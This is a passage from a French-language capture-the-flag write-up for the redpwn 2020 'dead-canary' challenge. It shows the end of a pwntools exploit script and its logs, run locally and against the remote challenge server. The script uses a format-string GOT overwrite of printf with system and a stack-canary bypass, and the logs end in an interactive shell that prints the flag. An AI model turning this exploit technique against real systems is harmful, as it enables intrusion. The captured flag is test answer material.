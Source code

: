 ```python
exp += p64(elf.got.printf)
exp += p64(elf.got.printf + 1)
exp += "B"* (276 - len(exp))
exp += "AAAA" # just overwrite the stack canary 

p.sendline(exp)
p.sendline("/bin/sh")
p.interactive()
```

et si nous le lançons:
```
$ python exploit_v2.py 
[+] Starting local process '/.../CTF/redpwn/2020/pwn/dead-canary/bin/dead-canary': pid 14990
[!] stage #1 : leaks.
[*] __stack_chk_fail: 0x601028
[*] payload size : 272
[*] payload : %064x%11$n%01783x%12$hn%13$sBBBBBBBBBBB\x00\x10\x00\x00\x00\x10\x00\x00\x00\x10\x00\x00\x00CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
[*] leak printf: 0x7ffff7a48e80
[*] leak libc  : 0x7ffff79e4000
[*] leak system: 0x7ffff7a33440
[!] stage #2 : exploitation.
[*] two write to make:
[*] 1. [0x601038] => 64 (0x40)
[*] 2. [0x601039] => 41780 (0xa334)
[*] Switching to interactive mode
 Hello 000000[...]00f7dd18c0ZZZZZZsh: 1: What: not found
sh: 1: Hello: not found
$ cat flag.txt
imflo{this_is_a_plaholder_flag}
$ 
[*] Interrupted
```

Victoire, nous avon un shell en local ! Et en remote ?

```
$ python exploit_v2.py REMOTE
[+] Opening connection to 2020.redpwnc.tf on port 31744: Done
[!] stage #1 : leaks.
[*] __stack_chk_fail: 0x601028
[*] payload size : 272
[*] payload : %064x%11$n%01783x%12$hn%13$sBBBBBBBBBBB\x00\x10\x00\x00\x00\x10\x00\x00\x00\x10\x00\x00\x00CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
[*] leak printf: 0x7fcae602ee80
[*] leak libc  : 0x7fcae5fca000
[*] leak system: 0x7fcae6019440
[!] stage #2 : exploitation.
[*] two write to make:
[*] 1. [0x601038] => 64 (0x40)
[*] 2. [0x601039] => 404 (0x194)
[*] Switching to interactive mode
 Hello 000[...]00e63b78c0ZZZZZZZZsh: 1: What: not found
sh: 1: Hello: not found
$ cat flag.txt
flag{t0_k1ll_a_canary_4e47da34}
$ 
[*] Interrupted
```
